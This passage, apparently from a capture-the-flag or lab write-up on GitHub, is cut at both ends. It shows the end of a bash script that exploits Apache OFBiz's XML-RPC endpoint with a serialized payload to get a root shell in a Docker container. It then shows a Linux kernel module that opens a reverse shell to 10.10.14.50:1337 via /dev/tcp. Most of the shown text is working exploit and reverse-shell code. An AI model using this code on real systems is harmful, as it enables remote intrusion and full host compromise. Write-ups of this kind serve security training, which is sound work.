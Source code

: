 ```bash
    echo -e "[+] Payload 2 generated successfully (length: ${#payload2} chars)"
    
    echo -e "[*] Sending second payload to server... (Execute)"
    response2=$(curl -s -k "$url:$port/webtools/control/xmlrpc" -X POST \
        -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload2</serializable></value></member></struct></value></param></params></methodCall>" \
        -H 'Content-Type:application/xml' -w "%{http_code}")
    
    echo -e "[*] Second request sent. Response code: ${response2: -3}"
    echo -e "\n[+] Exploit completed! Check your netcat listener for a shell!"
    echo -e "[*] If no shell appears, the target might be:"
    echo -e "    - Blocking outbound connections"
    echo -e "    - Not executing the payload"
    echo -e "    - Requiring a different payload/gadget chain"
}

# Main execution
declare -i parameter_enable=0

while getopts ":i:p:u:r:h" arg; do
    case $arg in
        i) ip=$OPTARG; let parameter_enable+=1;;
        p) ncport=$OPTARG; let parameter_enable+=1;;
        u) url=$OPTARG;;
        r) port=$OPTARG;;
        h) helpPanel;;
    esac
done

if [ $parameter_enable -ne 2 ]; then
    helpPanel
else
    webRequest
fi
```

<img width="523" height="451" alt="image" src="https://github.com/user-attachments/assets/ad447d50-0e8c-4633-b790-b1698a74a3c6" />

<img width="661" height="232" alt="image" src="https://github.com/user-attachments/assets/20c9ccb5-fc9c-453c-ae9a-ee9379f72751" />

**Result:** Gained access to Docker container as root.

### Kernel Module Exploitation

**Kernel Module Code:**
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.50/1337 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
```